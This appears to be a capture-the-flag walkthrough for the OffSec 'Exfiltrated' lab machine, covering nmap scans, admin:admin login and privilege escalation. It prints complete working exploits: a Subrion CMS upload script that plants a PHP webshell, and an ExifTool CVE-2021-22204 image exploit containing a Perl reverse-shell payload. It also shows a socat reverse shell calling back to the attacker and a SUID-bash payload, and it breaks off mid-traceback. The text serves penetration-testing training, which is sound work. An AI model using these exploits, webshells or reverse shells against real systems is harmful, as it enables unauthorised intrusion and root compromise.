



# Exfiltrated

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting an authenticated file upload bypass vulnerability in Subrion CMS 4.2.1 to achieve 
remote code execution. Learners will escalate privileges by leveraging a root cron job that executes ExifTool 
against uploaded images, exploiting a vulnerability (CVE-2021-22204) in the DjVu file format. The lab emphasizes 
web application exploitation, cron job abuse, and privilege escalation through malicious file uploads.
Released: 6 Sep 2021
```

Machine link: [https://portal.offsec.com/machine/exfiltrated-17398/overview/details](https://portal.offsec.com/machine/exfiltrated-17398/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ export TARGET_IP=192.168.231.163

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-07 08:58 +0200
Nmap scan report for 192.168.231.163
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.21 seconds
```

We have two TCP-services running and available:

- OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 on port 22
- Apache httpd 2.4.41 on port 80

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-07 09:01 +0200
Nmap scan report for 192.168.231.163
Host is up (0.037s latency).
All 100 scanned ports on 192.168.231.163 are in ignored states.
Not shown: 100 closed udp ports (port-unreach)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.04 seconds
```

### Check the web sites

Browsing manually to port 80 redirects us to `http://exfiltrated.offsec/` so we add this host to the `/etc/hosts` file

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ tail -n1 /etc/hosts
192.168.231.163 exfiltrated.offsec
```

and refresh the web browser to find a blog


There is a `robots.txt` file with a number of entries

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ curl http://$TARGET_IP/robots.txt  
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/   
```

A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ whatweb -a3 http://$TARGET_IP     
http://192.168.231.163 [302 Found] Apache[2.4.41], Cookies[INTELLI_06c8042c3d], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.231.163], RedirectLocation[http://exfiltrated.offsec/]
http://exfiltrated.offsec/ [200 OK] Apache[2.4.41], Bootstrap, Cookies[INTELLI_06c8042c3d], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.231.163], JQuery, MetaGenerator[Subrion CMS - Open Source Content Management System], Open-Graph-Protocol, PoweredBy[Subrion], Script, Title[Home :: Powered by Subrion 4.2], UncommonHeaders[x-powered-cms], X-UA-Compatible[IE=Edge]
```

We can Sign up with a new user but despite choosing a static password, a new password will be e-mailed to us



Let's turn our attention to the entries in `robots.txt` instead.

On `http://exfiltrated.offsec/panel/` we find a `Subrion Admin Panel`



We can see that Subrion CMS v4.2.1 is used.

Trying common credentials we are able to login with `admin:admin`.



### Search for available exploit(s)

Are there any exploits available for this CMS?

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ searchsploit subrion 4.2.1
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting                                                                                                         | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                                                                                                                          | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                                                                                                                       | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin)                                                                                                | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                                                                                                                        | php/webapps/45150.txt
Subrion CMS 4.2.1 - Stored Cross-Site Scripting (XSS)                                                                                                           | php/webapps/51110.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The Arbitrary File Upload sounds promising. Let's try that.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ searchsploit -m 49876     
  Exploit: Subrion CMS 4.2.1 - Arbitrary File Upload
      URL: https://www.exploit-db.com/exploits/49876
     Path: /usr/share/exploitdb/exploits/php/webapps/49876.py
    Codes: CVE-2018-19422
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (956)
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/49876.py


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ cat 49876.py                      
# Exploit Title: Subrion CMS 4.2.1 - File Upload Bypass to RCE (Authenticated)
# Date: 17/05/2021
# Exploit Author: Fellipe Oliveira
# Vendor Homepage: https://subrion.org/
# Software Link: https://github.com/intelliants/subrion
# Version: SubrionCMS 4.2.1
# Tested on: Debian9, Debian 10 and Ubuntu 16.04
# CVE: CVE-2018-19422
# Exploit Requirements: BeautifulSoup library
# https://github.com/intelliants/subrion/issues/801

#!/usr/bin/python3

import requests
import time
import optparse
import random
import string
from bs4 import BeautifulSoup

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri http://target/panel")
parser.add_option('-l', '--user', action="store", dest="user", help="User credential to login")
parser.add_option('-p', '--passw', action="store", dest="passw", help="Password credential to login")

options, args = parser.parse_args()

if not options.url:
    print('[+] Specify an url target')
    print('[+] Example usage: exploit.py -u http://target-uri/panel')
    print('[+] Example help usage: exploit.py -h')
    exit()

url_login = options.url
url_upload = options.url + 'uploads/read.json'
url_shell = options.url + 'uploads/'
username = options.user
password = options.passw

session = requests.Session()

def login():
    global csrfToken
    print('[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 \n')
    print('[+] Trying to connect to: ' + url_login)
    try:
        get_token_request = session.get(url_login)
        soup = BeautifulSoup(get_token_request.text, 'html.parser')
        csrfToken = soup.find('input',attrs = {'name':'__st'})['value']
        print('[+] Success!')
        time.sleep(1)

        if csrfToken:
            print(f"[+] Got CSRF token: {csrfToken}")
            print("[+] Trying to log in...")

            auth_url = url_login
            auth_cookies = {"loader": "loaded"}
            auth_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://192.168.1.20", "Connection": "close", "Referer": "http://192.168.1.20/panel/", "Upgrade-Insecure-Requests": "1"}
            auth_data = {"__st": csrfToken, "username": username, "password": password}
            auth = session.post(auth_url, headers=auth_headers, cookies=auth_cookies, data=auth_data)

            if len(auth.text) <= 7000:
                print('\n[x] Login failed... Check credentials')
                exit()
            else:
                print('[+] Login Successful!\n')
        else:
            print('[x] Failed to got CSRF token')
            exit()

    except requests.exceptions.ConnectionError as err:
        print('\n[x] Failed to Connect in: '+url_login+' ')
        print('[x] This host seems to be Down')
        exit()

    return csrfToken

def name_rnd():
    global shell_name
    print('[+] Generating random name for Webshell...')
    shell_name = ''.join((random.choice(string.ascii_lowercase) for x in range(15)))
    time.sleep(1)
    print('[+] Generated webshell name: '+shell_name+'\n')

    return shell_name

def shell_upload():
    print('[+] Trying to Upload Webshell..')
    try:
        up_url = url_upload
        up_cookies = {"INTELLI_06c8042c3d": "15ajqmku31n5e893djc8k8g7a0", "loader": "loaded"}
        up_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "*/*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------6159367931540763043609390275", "Origin": "http://192.168.1.20", "Connection": "close", "Referer": "http://192.168.1.20/panel/uploads/"}
        up_data = "-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"reqid\"\r\n\r\n17978446266285\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"cmd\"\r\n\r\nupload\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"target\"\r\n\r\nl1_Lw\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"__st\"\r\n\r\n"+csrfToken+"\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"upload[]\"; filename=\""+shell_name+".phar\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------6159367931540763043609390275\r\nContent-Disposition: form-data; name=\"mtime[]\"\r\n\r\n1621210391\r\n-----------------------------6159367931540763043609390275--\r\n"
        session.post(up_url, headers=up_headers, cookies=up_cookies, data=up_data)

    except requests.exceptions.HTTPError as conn:
        print('[x] Failed to Upload Webshell in: '+url_upload+' ')
        exit()

def code_exec():
    try:
        url_clean = url_shell.replace('/panel', '')
        req = session.get(url_clean + shell_name + '.phar?cmd=id')

        if req.status_code == 200:
            print('[+] Upload Success... Webshell path: ' + url_shell + shell_name + '.phar \n')
            while True:
                cmd = input('$ ')
                x = session.get(url_clean + shell_name + '.phar?cmd='+cmd+'')
                print(x.text)
        else:
            print('\n[x] Webshell not found... upload seems to have failed')
    except:
        print('\n[x] Failed to execute PHP code...')

login()
name_rnd()
shell_upload()
code_exec()         
```

It looks like the exploit will upload a webshell for us.

### Try out the exploit

Next, we try the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python 49876.py
[+] Specify an url target
[+] Example usage: exploit.py -u http://target-uri/panel
[+] Example help usage: exploit.py -h

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python 49876.py -h
Usage: 49876.py [options]

Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri http://target/panel
  -l USER, --user=USER  User credential to login
  -p PASSW, --passw=PASSW
                        Password credential to login
```

We have already verified that the credentials `admin:admin` works so we use them to get a shell.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python 49876.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://exfiltrated.offsec/panel/
[+] Success!
[+] Got CSRF token: LeY1H2G4FkD05oxJl1jB52hBDo97fRoNH6kg1PFE
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: yinjuomnqiowvex

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://exfiltrated.offsec/panel/uploads/yinjuomnqiowvex.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ 
```

We are running as www-data!

### Get a reverse shell

Before continuing let's get a better (reverse) shell.

Back at our Kali machine, we start a `socat` listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ socat -d TCP4-LISTEN:12345 STDOUT                
2026/04/07 09:57:34 socat[47662] N listening on AF=2 0.0.0.0:12345

```

And then we trigger a reverse shell from the target machine

```bash
$ which socat
/usr/bin/socat

$ socat TCP4:192.168.45.218:12345 EXEC:'/bin/bash -i'          
```

At our listener, we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ socat -d TCP4-LISTEN:12345 STDOUT 
2026/04/07 10:01:24 socat[49465] W address is opened in read-write mode but only supports write-only
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
tty     
not a tty
which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@exfiltrated:/var/www/html/subrion/uploads$ ^Z
zsh: suspended  socat -d TCP4-LISTEN:12345 STDOUT
                                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ stty raw -echo ; fg ; reset 
[1]  + continued  socat -d TCP4-LISTEN:12345 STDOUT

www-data@exfiltrated:/var/www/html/subrion/uploads$ export SHELL=bash
<ww/html/subrion/uploads$ export TERM=xterm-256color
www-data@exfiltrated:/var/www/html/subrion/uploads$ stty rows 200 columns 200
www-data@exfiltrated:/var/www/html/subrion/uploads$ ^C
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

Now we have a proper shell that survives `Ctrl + C`!

### Try to get the user flag

Now we can start looking for the user flag

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ find / -type f -name local.txt 2>/dev/null
www-data@exfiltrated:/var/www/html/subrion/uploads$ ls -l /home
total 4
drwx--x--x 2 coaran coaran 4096 Jun 10  2021 coaran
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

Nope, no access to the user flag yet.

### Enumeration for privesc

Instead, we continue enumerating. The following checks yields nothing:

- `sudo -l` (no password)
- Check for SUID-binaries (`find / -type f -perm /4000 2>/dev/null`)
- Check for capabilities (`getcap -r / 2>/dev/null`)
- Check local crontab (`crontab -l`)

However, the global crontab contains a script running as root every minute

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/image-exif.sh
#
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

The script processes upload images with `exifool`

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

The current version of `exiftool` is 11.88

```bash
www-data@exfiltrated:/var/www/html/subrion/uploads$ exiftool -ver
11.88
www-data@exfiltrated:/var/www/html/subrion/uploads$ 
```

### Search for exiftool exploit(s)

We check for exploits with `searchsploit`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ searchsploit exiftool                           
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ExifTool 12.23 - Arbitrary Code Execution                                                                                                                       | linux/local/50911.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ searchsploit -m 50911
  Exploit: ExifTool 12.23 - Arbitrary Code Execution
      URL: https://www.exploit-db.com/exploits/50911
     Path: /usr/share/exploitdb/exploits/linux/local/50911.py
    Codes: CVE-2021-22204
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/50911.py


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ cat 50911.py    
# Exploit Title: ExifTool 12.23 - Arbitrary Code Execution
# Date: 04/30/2022
# Exploit Author: UNICORD (NicPWNs & Dev-Yeoj)
# Vendor Homepage: https://exiftool.org/
# Software Link: https://github.com/exiftool/exiftool/archive/refs/tags/12.23.zip
# Version: 7.44-12.23
# Tested on: ExifTool 12.23 (Debian)
# CVE: CVE-2021-22204
# Source: https://github.com/UNICORDev/exploit-CVE-2021-22204
# Description: Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image

#!/usr/bin/env python3

# Imports
import base64
import os
import subprocess
import sys

# Class for colors
class color:
    red = '\033[91m'
    gold = '\033[93m'
    blue = '\033[36m'
    green = '\033[92m'
    no = '\033[0m'

# Print UNICORD ASCII Art
def UNICORD_ASCII():
    print(rf"""
{color.red}        _ __,~~~{color.gold}/{color.red}_{color.no}        {color.blue}__  ___  _______________  ___  ___{color.no}
{color.red}    ,~~`( )_( )-\|       {color.blue}/ / / / |/ /  _/ ___/ __ \/ _ \/ _ \{color.no}
{color.red}        |/|  `--.       {color.blue}/ /_/ /    // // /__/ /_/ / , _/ // /{color.no}
{color.green}_V__v___{color.red}!{color.green}_{color.red}!{color.green}__{color.red}!{color.green}_____V____{color.blue}\____/_/|_/___/\___/\____/_/|_/____/{color.green}....{color.no}
    """)

# Print exploit help menu
def help():
    print(r"""UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.
""")

# Run the exploit
def exploit(command):

    UNICORD_ASCII()

    # Create perl payload
    payload = "(metadata \"\c${"
    payload += command
    payload += "};\")"

    print(f"{color.red}RUNNING: {color.blue}UNICORD Exploit for CVE-2021-22204{color.no}")
    print(f"{color.red}PAYLOAD: {color.gold}" + payload + f"{color.no}")

    # Write payload to file
    payloadFile = open('payload','w')
    payloadFile.write(payload)
    payloadFile.close()

    # Bzz compress file
    subprocess.run(['bzz', 'payload', 'payload.bzz'])

    # Run djvumake
    subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])

    if '-i' in sys.argv:
        imagePath = sys.argv[sys.argv.index('-i') + 1]
        subprocess.run(['cp',f'{imagePath}','./image.jpg','-n'])

    else:
        # Smallest possible JPEG
        image = b"/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAAMCAgICAgMCAgIDAwMDBAYEBAQEBAgGBgUGCQgKCgkICQkKDA8MCgsOCwkJDRENDg8QEBEQCgwSExIQEw8QEBD/yQALCAABAAEBAREA/8wABgAQEAX/2gAIAQEAAD8A0s8g/9k="

        # Write smallest possible JPEG image to file
        with open("image.jpg", "wb") as img:
            img.write(base64.decodebytes(image))

    # Write exiftool config to file
    config = (r"""
    %Image::ExifTool::UserDefined = (
    'Image::ExifTool::Exif::Main' => {
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
    );
    1; #end
    """)
    configFile = open('exiftool.config','w')
    configFile.write(config)
    configFile.close()

    # Exiftool config for output image
    subprocess.run(['exiftool','-config','exiftool.config','-HasselbladExif<=exploit.djvu','image.jpg','-overwrite_original_in_place','-q'])

    # Delete leftover files
    os.remove("payload")
    os.remove("payload.bzz")
    os.remove("exploit.djvu")
    os.remove("exiftool.config")

    # Print results
    print(f"{color.red}RUNTIME: {color.green}DONE - Exploit image written to 'image.jpg'{color.no}\n")

    exit()

if __name__ == "__main__":

    args = ['-h','-c','-s','-i']

    if args[0] in sys.argv:
        help()

    elif args[1] in sys.argv and not args[2] in sys.argv:
        exec = sys.argv[sys.argv.index(args[1]) + 1]
        command = f"system(\'{exec}\')"
        exploit(command)

    elif args[2] in sys.argv and not args[1] in sys.argv:
        localIP = sys.argv[sys.argv.index(args[2]) + 1]
        localPort = sys.argv[sys.argv.index(args[2]) + 2]
        command = f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({localPort},inet_aton('{localIP}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};"
        exploit(command)

    else:
        help()  

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python 50911.py
/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/50911.py:61: SyntaxWarning: invalid escape sequence '\c'
  payload = "(metadata \"\c${"
UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.
```

### Create a malicious image

We will use the custom command option to create a SUID-bash shell.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Exfiltrated]
└─$ python 50911.py -c 'cp /bin/bash /var/www/html/rootbash;chmod +xs /var/www/html/rootbash'
/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/50911.py:61: SyntaxWarning: invalid escape sequence '\c'
  payload = "(metadata \"\c${"

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
RUNNING: UNICORD Exploit for CVE-2021-22204
PAYLOAD: (metadata "\c${system('cp /bin/bash /var/www/html/rootbash;chmod +xs /var/www/html/rootbash')};")
Traceback (most recent call last):
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/50911.py", line 132, in <module>
    exploit(command)
    ~~~~~~~^^^^^^^^^
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Exfiltrated/50911.py", line 74, in exploit
    subprocess.run(['bzz', 'payload', 'payload.bzz'])
